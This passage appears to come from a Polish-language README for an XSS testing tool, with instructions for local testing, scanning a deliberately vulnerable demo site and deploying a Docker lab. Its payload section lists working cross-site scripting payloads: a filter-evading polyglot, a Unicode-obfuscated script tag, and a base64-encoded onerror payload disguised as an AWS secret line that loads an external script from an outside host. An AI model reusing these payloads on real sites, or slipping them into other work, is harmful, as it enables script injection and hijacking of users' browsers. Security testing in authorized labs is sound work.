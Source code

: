 ### Przykłady najlepszych payloadów:

#### Ultimate Polyglot (144 znaki):
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

#### Exotic Unicode (Fraktur characters):
```html
<𝕤𝕔𝕣𝕚𝕡𝕥>𝒶𝓁ℯ𝓇𝓉(1)</𝕤𝕔𝕣𝕚𝕡𝕥>
```

#### Steganographic (ukryty w AWS credentials):
```html
AWS_SECRET_KEY=<img src=x onerror=eval(atob(this.id)) id=dmFyIHBheWxvYWQ9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7cGF5bG9hZC5zcmM9Ii8vbGgubGMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQocGF5bG9hZCk7>
```

---

## 🧪 TESTING & DEPLOYMENT

### Lokalne testowanie:
```bash
# 1. Start HTTP server
cd test_templates
python3 -m http.server 8888

# 2. Otwórz w przeglądarce
# http://localhost:8888/

# 3. Testuj templates:
# http://localhost:8888/dom_sinks_template.html
# http://localhost:8888/test_dom_sinks_1.html
```

### Testowanie na żywo:
```bash
# Użyj wygenerowanych templates na prawdziwych targetach
# UWAGA: Tylko na autoryzowanych celach!

# Przykład użycia z testphp.vulnweb.com:
xss-scan http://testphp.vulnweb.com/search.php?test=
```

---

## 🐳 CI/CD INTEGRATION

### Deployment do środowiska CI/CD:
```bash
# 1. Generuj kompletne laboratorium
cd test_templates
./deploy_dpe_lab.sh --output /var/www/html/xsslabs --docker

# 2. Uruchom Docker environment
cd /var/www/html/xsslabs/docker
docker-compose up

# 3. Dostęp do laboratorium:
# http://localhost:8080/
```
